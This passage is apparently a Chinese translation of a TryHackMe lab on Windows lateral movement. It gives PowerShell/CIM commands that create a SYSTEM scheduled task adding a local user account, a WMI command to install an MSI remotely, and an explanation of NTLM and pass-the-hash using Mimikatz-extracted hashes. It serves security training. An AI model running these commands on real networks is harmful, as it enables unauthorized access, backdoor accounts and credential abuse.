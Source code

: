 我们可以通过使用 Windows 默认安装中提供的一些 cmdlet 来创建和执行计划任务：

    $Command = "cmd.exe"
    $Args = "/c net user munra22 aSdf1234 /add"

    $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
    Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
    Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"

要在计划任务使用后将其删除，我们可以使用以下命令：

    Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"

### 通过 WMI 安装 MSI 包

端口：

    135/TCP， 49152-65535/TCP （DCERPC）
    5985/TCP （WinRM HTTP） 或 5986/TCP （WinRM HTTPS）

    所需的组成员身份：管理员

MSI 是用于安装程序的文件格式。如果我们可以将 MSI 包复制到目标系统，则可以使用 WMI 尝试为我们安装它。可以通过攻击者可用的任何方式复制该文件。一旦 MSI 文件位于目标系统中，我们可以尝试通过 WMI 调用 Win32_Product 类来安装它：

    Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

---

通过备用身份验证材料，我们指的是可用于访问 Windows 帐户的任何数据，而无需实际知道用户的密码本身。这是可能的，因为Windows网络使用的某些身份验证协议的工作方式。在此任务中，我们将介绍当网络上有以下任一身份验证协议可用时，可用于以用户身份登录的几种替代方法：

    NTLM 身份验证
    Kerberos 身份验证

注意：在此任务期间，假定您熟悉从主机提取凭据的方法和工具。Mimikatz将用作整个房间的凭据提取的首选工具。

### NTLM 身份验证
在深入了解实际的横向移动技术之前，让我们看一下 NTLM 身份验证的工作原理：

<img src='https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9434c96e1bc0519f8d851b44d85b6702.png' />

    客户端向要访问的服务器发送身份验证请求。
    服务器生成一个随机数，并将其作为质询发送给客户端。
    客户端将其 NTLM 密码哈希与质询（和其他已知数据）相结合，以生成对质询的响应，并将其发送回服务器进行验证。
    服务器将质询和响应转发到域控制器进行验证。
    域控制器使用质询重新计算响应，并将其与客户端发送的初始响应进行比较。如果它们都匹配，则客户端进行身份验证;否则，访问将被拒绝。身份验证结果将发送回服务器。
    服务器将身份验证结果转发到客户端。

注意：使用域帐户时，所描述的过程适用。如果使用本地帐户，则服务器可以验证对质询本身的响应，而无需与域控制器交互，因为它在其 SAM 上本地存储了密码哈希。

### 传递哈希

由于从我们已获得管理权限的主机中提取凭据（通过使用 mimikatz 或类似工具），我们可能会获得易于破解的明文密码或哈希。但是，如果我们不够幸运，我们最终会得到未破解的 NTLM 密码哈希。

尽管我们似乎无法真正使用这些哈希，但只需知道密码哈希即可响应身份验证期间发送的 NTLM 质询。这意味着我们可以进行身份验证，而无需知道明文密码。如果将 Windows 域配置为使用 NTLM 身份验证，则不必破解 NTLM 哈希，我们可以传递哈希 （PtH） 并成功进行身份验证。
